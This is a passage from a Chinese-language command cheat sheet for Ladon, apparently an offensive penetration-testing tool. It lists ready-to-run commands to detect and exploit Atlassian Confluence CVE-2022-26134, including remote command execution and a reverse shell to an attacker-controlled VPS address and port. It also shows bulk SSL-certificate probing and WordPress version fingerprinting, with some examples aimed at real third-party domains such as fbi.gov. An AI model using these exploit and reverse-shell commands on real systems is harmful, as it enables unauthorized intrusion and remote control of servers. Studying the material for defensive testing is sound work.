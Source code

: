 ##### 156 IPB  批量IP转成ip B格式(192.168.)
```Bash
Ladon ip.txt IPB
```

##### 157 漏洞检测Atlassian Confluence CVE-2022-26134
```Bash
Ladon url.txt CVE-2022-26134
```

##### 158 Atlassian Confluence CVE-2022-26134 EXP
```Bash
Ladon EXP-2022-26134 https://111.123.123.123 id
```

##### 159 RevShell-2022-26134  CVE-2022-26134反弹Shell
```Bash
Ladon RevShell-2022-26134 TargetURL VpsIP VpsPort
Ladon RevShell-2022-26134 http://xxx.com:8090 123.123.123.123 4444
```

##### 160 SslInfo 证书探测设备、IP、域名、机器名、组织机构等信息
```Bash
Ladon https://k8gege.org SslInfo
Ladon k8gege.org SslInfo
Ladon k8gege.org:443 SslInfo 指定端口
Ladon noping fbi.gov SslInfo 禁ping探测
Ladon 192.168.1.1 SslInfo
Ladon 192.168.1.1:8443 SslInfo
```

##### 161 SslInfo 证书批量探测设备、IP、域名、机器名、组织机构等信息
```Bash
Ladon ip.txt SslInfo
Ladon url.txt SslInfo
Ladon 192.168.1.1/c SslInfo
Ladon 192.168.1.1/b SslInfo
```

##### 162 WPinfo 多种方法获取WordPress主程序、主题、插件版本
```Bash
Ladon https://k8gege.org WPinfo
Ladon k8gege.org WPinfo
Ladon noping fbi.gov WPinfo 禁ping探测
Ladon 192.168.1.1 WPinfo
Ladon 192.168.1.1:8443 WPinfo
```

##### 163 WPinfo 批量获取WordPress主程序、主题、插件版本
```Bash
Ladon ip.txt WPinfo
Ladon url.txt WPinfo
Ladon 192.168.1.1/c WPinfo
Ladon 192.168.1.1/b WPinfo
```
